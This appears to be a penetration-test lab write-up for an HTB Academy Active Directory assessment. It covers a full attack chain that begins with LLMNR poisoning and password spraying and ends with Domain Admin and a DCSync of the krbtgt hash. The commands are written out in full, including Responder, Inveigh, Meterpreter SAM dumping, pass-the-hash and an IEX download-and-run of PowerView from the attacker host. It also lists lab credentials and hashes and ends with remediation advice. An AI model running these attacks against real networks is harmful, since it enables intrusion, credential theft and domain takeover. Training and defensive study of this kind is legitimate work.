










# AD Enumeration & Attacks — Skills Assessment Part II

> **Module:** Active Directory Enumeration & Attacks (HTB Academy — CPTS Path)
> **Scenario:** Full-scope internal penetration test against Inlanefreight. A Parrot attack host is provided inside the internal network. No stealth required.
> **Goal:** Gain a foothold, enumerate the domain, move laterally, escalate to Domain Admin, and extract the krbtgt NTLM hash.
> **Domain:** `INLANEFREIGHT.LOCAL` — **DC:** `172.16.7.3`

---

## Kill chain overview

```
Responder → capture AB920 → crack (weasal)          [foothold]
   → RDP to MS01 → MS01 flag
   → password spray → BR086:Welcome1
   → SMB "Department Shares" → web.config → netdb:D@ta_bAse_adm1n!
   → MSSQL on SQL01 → Meterpreter → lsa_dump_sam → local Administrator hash
   → PtH on SQL01 → SQL01 flag
   → SharpHound + BloodHound → CT059 has GenericAll over Domain Admins
   → Inveigh on MS01 (as Administrator) → capture CT059 → crack (charlie1)
   → Add CT059 to Domain Admins → DC01 → Administrator flag
   → DCSync krbtgt → domain compromised
```

---

## 1. Initial reconnaissance

Connect to the Parrot attack host via SSH and scan the internal subnet to identify targets.

```bash
ssh htb-student@10.129.96.15
```

Hosts identified in the `172.16.7.0/23` network:

| IP | Host | Role |
|----|------|------|
| `172.16.7.3` | DC01 | Domain Controller |
| `172.16.7.50` | MS01 | Member server |
| `172.16.7.60` | SQL01 | SQL server |
| `172.16.7.240` | — | Parrot attack host (us) |

---

## 2. Foothold — LLMNR/NBT-NS Poisoning with Responder

No credentials are provided, so we start by capturing a network authentication. Responder poisons name resolution and captures the NetNTLMv2 hash of any user that issues a request.

```bash
sudo responder -I ens224 -w
```



Captured the NetNTLMv2 hash of **AB920**. Copied it to Kali and cracked it with John:

```bash
john --format=netntlmv2 --wordlist=/usr/share/wordlists/rockyou.txt ab920.hash
```

**Credentials obtained:** `AB920:weasal`

---

## 3. Pivoting and access to MS01

Set up a SOCKS tunnel via SSH dynamic port forwarding to reach the internal network from Kali.

```bash
ssh -D 9050 htb-student@10.129.96.15
# /etc/proxychains.conf → socks5 127.0.0.1 9050
```

Access MS01 via RDP with AB920's credentials:

```bash
proxychains xfreerdp /v:172.16.7.50 /u:AB920 /p:weasal /size:800x600
```

Confirmed via `hostname` that we are on **MS01**. Retrieved the flag in `C:\`.


**Tool transfer:** the transfer chain is `Kali → Parrot → MS01`. When copying files from the Parrot to MS01 it is essential to use the Parrot's **internal IP** (`172.16.7.240`), the only one MS01 can reach.


---

## 4. Password Spraying

Enumerated domain users and attempted a spray with a common password (reused from the module, consistent with HTB's style).

```bash
crackmapexec smb 172.16.7.3 -u AB920 -p 'weasal' --users | awk '{print $5}' > users.txt
crackmapexec smb 172.16.7.3 -u users.txt -p 'Welcome1' --continue-on-success
```



**Credentials obtained:** `BR086:Welcome1` — the user belongs to the **IT Managers** group.

---

## 5. SMB share enumeration

RDP access with BR086 reveals nothing useful. Based on the IT Managers membership, we enumerate accessible shares. The **Department Shares** share contains sensitive material.

```bash
smbclient //172.16.7.3/"Department Shares" -U BR086%Welcome1
```



Retrieved `web.config` from `\IT\Private\Development\`:

```bash
smb: \IT\Private\Development\> get web.config
```

The file contains a cleartext MSSQL connection string:

```xml
<connectionStrings>
  <add name="ConString" connectionString="...;Initial Catalog=Northwind;User ID=netdb;Password=D@ta_bAse_adm1n!"/>
</connectionStrings>
```



**Credentials obtained:** `netdb:D@ta_bAse_adm1n!`

---

## 6. SQL01 compromise → local Administrator hash

Access the MSSQL service on SQL01 with the extracted credentials.

```bash
impacket-mssqlclient netdb:'D@ta_bAse_adm1n!'@172.16.7.60 -port 1433
```

`xp_cmdshell` is not directly available. We obtain a shell via a Meterpreter payload with Metasploit on the attack host.

```
use windows/mssql/mssql_payload
# → meterpreter shell
getsystem            # privilege escalation to SYSTEM
load kiwi            # mimikatz extension for Meterpreter
lsa_dump_sam         # dump the SAM database
```



From the SAM dump, the NTLM hash of SQL01's **local Administrator**:

```
RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: bdaffbfe64f1fc646a3353be1c2c3c99
```

### Using the hash (Pass-the-Hash)

The local Administrator hash enables PtH on local hosts (not on the DC, since it is a local account, not a domain one):

```bash
# shell on MS01
evil-winrm -i 172.16.7.50 -u Administrator -H bdaffbfe64f1fc646a3353be1c2c3c99

# shell on SQL01 → Administrator flag on the Desktop
impacket-psexec -hashes :bdaffbfe64f1fc646a3353be1c2c3c99 Administrator@172.16.7.60
```

---

## 7. Enumeration with BloodHound → the path to Domain Admin

Transferred and executed SharpHound on a controlled host, then imported the ZIP into BloodHound.

```powershell
.\SharpHound.exe -c All --outputdirectory C:\Users\AB920 --zipfilename inlanefreight
```

**Key finding:** the user **CT059** has the **GenericAll permission over the Domain Admins group**.


Analyzing the nodes, the only principals with rights *over* CT059 are administrative groups (Account Operators, Administrators, Domain Admins) we are not part of. CT059 has no active sessions and its hash is not present on the compromised hosts. We therefore need to capture its authentication from the network.


---

## 8. Capturing CT059's hash with Inveigh

Inveigh is the Windows counterpart of Responder: it poisons name resolution from an internal host. A first attempt on SQL01 yields no results — CT059 authenticates towards **MS01**.


**Elevated privileges are mandatory.** Running Inveigh as AB920 (an unprivileged user), `SMB Capture` is disabled and the capture fails. It must be run as **Administrator**. We reuse the local Administrator hash to open an elevated session on MS01.


```bash
proxychains evil-winrm -i 172.16.7.50 -u Administrator -H bdaffbfe64f1fc646a3353be1c2c3c99
```

Transferred Inveigh (`Kali → Parrot → MS01` chain) and executed it with elevated privileges (`SMB Capture = Enabled`):

```powershell
Import-Module .\Inveigh.ps1
Invoke-Inveigh -NBNS Y -LLMNR Y -mDNS Y -ConsoleOutput N -FileOutput Y -IP 172.16.7.50
```





Captured the NetNTLMv2 hash of **CT059** and cracked it with John:

```bash
john --format=netntlmv2 --wordlist=/usr/share/wordlists/rockyou.txt ct059_hash.txt
```



**Credentials obtained:** `CT059:charlie1`

---

## 9. Privilege Escalation — abusing GenericAll

CT059 has GenericAll over the Domain Admins group: we can add a member to the group. Loaded PowerView in memory in the evil-winrm session and leveraged CT059's credentials.

```powershell
# load PowerView in memory (webserver on the Parrot)
IEX(New-Object Net.WebClient).DownloadString('http://172.16.7.240:9090/PowerView.ps1')

# CT059 credential object
$SecPassword = ConvertTo-SecureString 'charlie1' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\CT059', $SecPassword)

# add CT059 to Domain Admins using its GenericAll
Add-DomainGroupMember -Identity 'Domain Admins' -Members 'CT059' -Credential $Cred -Verbose
# Verbose: [Add-DomainGroupMember] Adding member 'CT059' to group 'Domain Admins'
```

CT059 is now a **Domain Admin**.

---

## 10. DC access and final flag

With CT059 promoted to Domain Admin, access DC01 from the Parrot session:

```bash
evil-winrm -i 172.16.7.3 -u CT059 -p 'charlie1'
```



Retrieved the flag on DC01's Administrator Desktop.

---

## 11. Domain Compromise — DCSync of krbtgt

The final question requires the NTLM hash of the **krbtgt** account, obtainable via DCSync (a right granted by Domain Admin status).

```bash
secretsdump.py inlanefreight.local/CT059:'charlie1'@172.16.7.3 -just-dc-user krbtgt
```

```
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:7eba70412d81c1cd030d72a3e8dbe05f:::
```



**krbtgt NTLM hash:** `7eba70412d81c1cd030d72a3e8dbe05f`


Possession of the krbtgt hash enables the creation of **Golden Tickets**, granting persistent and arbitrary access to the entire domain. This represents full compromise.


**Domain compromised.**

---

## Cleanup

Restore the pre-attack state: remove CT059 from the Domain Admins group.

```powershell
Remove-DomainGroupMember -Identity 'Domain Admins' -Members 'CT059' -Credential $Cred -Verbose
```

---

## Credentials summary

| User | Credential | Method |
|------|------------|--------|
| `AB920` | `weasal` | Responder (LLMNR/NBT-NS poisoning) + crack |
| `BR086` | `Welcome1` | Password spraying |
| `netdb` | `D@ta_bAse_adm1n!` | web.config in SMB share |
| `Administrator` (local SQL01) | NTLM `bdaffbfe64f1fc646a3353be1c2c3c99` | MSSQL → Meterpreter → lsa_dump_sam |
| `CT059` | `charlie1` | Inveigh (poisoning on MS01) + crack |
| `krbtgt` | NTLM `7eba70412d81c1cd030d72a3e8dbe05f` | DCSync |

---

## Vulnerabilities and remediation

| Weakness | Risk | Remediation |
|----------|------|-------------|
| LLMNR/NBT-NS enabled | Hash capture via poisoning | Disable LLMNR and NBT-NS via GPO |
| Weak/reused passwords (`Welcome1`) | Effective password spraying | Strong password policy, MFA, lockout monitoring |
| Cleartext credentials in `web.config` | Service account exposure | Remove secrets from files, use gMSA / Azure Key Vault |
| Local admin hash reuse across hosts | Lateral movement via PtH | LAPS (unique, random local passwords) |
| Excessive ACLs (GenericAll over Domain Admins) | Direct privilege escalation | Regular ACL audits with BloodHound, least privilege |
